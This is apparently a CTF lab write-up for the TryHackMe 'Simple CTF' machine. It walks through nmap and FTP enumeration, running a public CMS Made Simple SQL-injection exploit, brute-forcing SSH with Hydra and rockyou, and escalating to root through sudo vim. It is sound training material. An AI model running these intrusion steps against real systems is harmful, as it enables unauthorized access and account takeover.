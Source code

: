 # Simple-CTF
### Nmap 

`nmap -v -sC -sV -oN <DIRECTORY> $IP`

```
Host is up (0.39s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.12.253
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### FTP
`$ ftp $IP`

`ftp> ls -al`

```
ftp> ls -al                                                                                   │root@kali:~/Documents/TryHackMe/Simple-Ctf# ls
200 PORT command successful. Consider using PASV.                                             │Information
150 Here comes the directory listing.                                                         │root@kali:~/Documents/TryHackMe/Simple-Ctf# ls
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 .                                     │ForMitch.txt  Information
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..                                    │root@kali:~/Documents/TryHackMe/Simple-Ctf# ping 10.10.56.123
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub                                   │PING 10.10.56.123 (10.10.56.123) 56(84) bytes of data.
226 Directory send OK.                                                                        │64 bytes from 10.10.56.123: icmp_seq=1 ttl=63 time=275 ms
ftp> cd pub                                                                                   │^C
250 Directory successfully changed.                                                           │--- 10.10.56.123 ping statistics ---
ftp> ls                                                                                       │2 packets transmitted, 1 received, 50% packet loss, time 1002ms
200 PORT command successful. Consider using PASV.                                             │rtt min/avg/max/mdev = 274.740/274.740/274.740/0.000 ms
150 Here comes the directory listing.                                                         │root@kali:~/Documents/TryHackMe/Simple-Ctf# mv ForMitch.txt Information/
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt                          │root@kali:~/Documents/TryHackMe/Simple-Ctf# ls- al
226 Directory send OK.                                                                        │-bash: ls-: command not found
ftp> get ForMitch.txt                                                                         │root@kali:~/Documents/TryHackMe/Simple-Ctf# ls
local: ForMitch.txt remote: ForMitch.txt                                                      │Information
200 PORT command successful. Consider using PASV.                                             │root@kali:~/Documents/TryHackMe/Simple-Ctf# cd Information/
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).                         │root@kali:~/Documents/TryHackMe/Simple-Ctf/Information# ls -al
226 Transfer complete.                                                                        │total 20
166 bytes received in 0.00 secs (2.0039 MB/s) 
```
`$ cat ForMitch.txt`
```
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!

```
### Port 80
> We go to the Browser for observing the Web-App

![Screenshot_2020-09-04_07-15-11](https://user-images.githubusercontent.com/56790998/92246651-0f733380-ee94-11ea-94cd-1ddb3bb2179e.png)

> We try searching for Robots.txt but the given directory doesn't exist

![robots txt](https://user-images.githubusercontent.com/56790998/92246753-329de300-ee94-11ea-87f1-d1a68332f6aa.png)

> Since Gobuster was slow I tried to brute-force direectory myself starting with the name of box *SIMPLE*


`$ curl http://$IP/simple`

```
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://10.10.56.123/simple/">here</a>.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.56.123 Port 80</address>
</body></html>
root@kali:~/Documents/TryHackMe/Simple-Ctf# 
```
> Since it returned 301 we check that page


![simple_cms_home_page](https://user-images.githubusercontent.com/56790998/92247248-f323c680-ee94-11ea-9a50-0372f0de05c7.png)


## Enumeration

`$ searchsploit CMS made simple`

![searchsploit](https://user-images.githubusercontent.com/56790998/92247687-8ceb7380-ee95-11ea-8d1e-80d50511df6f.png)

![highlighted-exploit](https://user-images.githubusercontent.com/56790998/92247764-a8ef1500-ee95-11ea-88b3-d82d9100399a.png)

`$ searchsploit -m php/webapps/46635.py`

`$ mv 46635.py exploit.py`

`$ pip install termcolor`

`$ python exploit.py -u http://$IP/simple --crack -w /usr/share/wordlists/rockyou.txt`

> since this script takes a lot of time and its better to run 2 enumeration we can try brute-forcing SSH using HYDRA
and user as mitch which we got from FTP

`$ hydra -l mitch -P /usr/share/wordlists/rockyou.txt $IP -s 2222 -Vv`

```
[2222][ssh] host: 10.10.56.123   login: mitch   password: secret
```

`$ ssh mitch@10.10.56.123 -p 2222`

## Privilege Escalation

`$ which python3`

```
/usr/bin/python3
```

`$ python3 -c 'import pty;pty.spawn("/bin/bash")'`

`$ sudo -l`

```
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

`$ sudo vim`

> Press escape then : and type shell

`:shell`

`# whoami`

```
root
```

`# ls /home/mitch/user.txt`

![user](https://user-images.githubusercontent.com/56790998/92249305-d89f1c80-ee97-11ea-9d21-ecb187edf5e3.png)

`# ls /root/root.txt`

![root](https://user-images.githubusercontent.com/56790998/92249210-b0172280-ee97-11ea-93f5-0152bc87dc23.png)
